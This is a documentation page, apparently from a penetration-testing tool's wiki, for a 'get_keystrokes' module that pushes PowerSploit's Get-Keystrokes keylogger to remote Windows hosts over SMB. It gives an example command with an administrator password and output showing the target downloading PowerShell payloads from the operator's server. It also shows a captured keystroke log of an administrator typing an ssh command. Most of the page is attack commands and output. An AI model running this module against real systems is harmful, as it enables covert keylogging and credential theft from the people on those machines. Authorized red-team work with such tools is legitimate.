 --------------------------------------------------------------------------------------------------------------------------------------------------------
## get_keystrokes   
Executes PowerSploit's Get-Keystrokes script  
Needs to be killed manually after recieving the Got Keys! message  
using Ctrl+C  

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```
*   TIMEOUT   Specifies the interval in minutes to capture keystrokes.
    STREAM    Specifies whether to stream the keys over the network (default: False)
    POLL      Specifies the interval in seconds to poll the log file (default: 20)
```
**Example Usage:**
```
~# cmx smb 192.168.1.110 -u Administrator -p 'AAdmin!23' -M get_keystrokes -o TIMEOUT=2
```
**Expected Results:**
```
GET_KEYS...                                         [*] This module will not exit until CTRL-C is pressed
GET_KEYS...                                         [*] Keystrokes will be stored in ~/.cmx/logs

SMB         192.168.1.110    445    DC2016A          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC2016A) (domain:PACIFIC) (signing:True) (SMBv1:True)
SMB         192.168.1.110    445    DC2016A          [+] PACIFIC\Administrator:AAdmin!23 (Pwn3d!)
GET_KEYS... 192.168.1.110    445    DC2016A          [+] Executed launcher
GET_KEYS... 192.168.1.110                            [*] - - "GET /Invoke-PSInject.ps1 HTTP/1.1" 200 -
GET_KEYS... 192.168.1.110                            [*] - - "GET /Get-Keystrokes.ps1 HTTP/1.1" 200 -
GET_KEYS... 192.168.1.110    445    DC2016A          [+] Got keys! Stored in /root/.cmx/logs/get_keystrokes_192.168.1.110/keys_Administrator.log
^CKeyboardInterrupt
2018-11-29T20:29:28Z
```
**Results File:**
Output files are saved to /root/.cmx/logs/get_keystrokes_\<targetIP\>/  
Results are of the form:  
"Key pressed","username: application","date"  
Below example grabbed the Administrator typing "ssh root@10.10.10.10" the "p@ssword!"  
```
~# cat /root/.cmx/logs/get_keystrokes_192.168.1.110/keys_Administrator.log

��"TypedKey","WindowTitle","Time"
"<Enter>","Administrator: Command Prompt","11/29/2018 12:32:24 PM"
"<Enter>","Administrator: Command Prompt","11/29/2018 12:32:24 PM"
"s","Administrator: Command Prompt","11/29/2018 12:32:25 PM"
"s","Administrator: Command Prompt","11/29/2018 12:32:25 PM"
"h","Administrator: Command Prompt","11/29/2018 12:32:25 PM"
"< >","Administrator: Command Prompt","11/29/2018 12:32:25 PM"
"r","Administrator: Command Prompt","11/29/2018 12:32:26 PM"
"o","Administrator: Command Prompt","11/29/2018 12:32:26 PM"
"o","Administrator: Command Prompt","11/29/2018 12:32:26 PM"
"t","Administrator: Command Prompt","11/29/2018 12:32:26 PM"
"<Shift>","Administrator: Command Prompt","11/29/2018 12:32:27 PM"
"@","Administrator: Command Prompt","11/29/2018 12:32:28 PM"
"1","Administrator: Command Prompt","11/29/2018 12:32:28 PM"
"0","Administrator: Command Prompt","11/29/2018 12:32:28 PM"
".","Administrator: Command Prompt","11/29/2018 12:32:29 PM"
"1","Administrator: Command Prompt","11/29/2018 12:32:29 PM"
"0","Administrator: Command Prompt","11/29/2018 12:32:29 PM"
```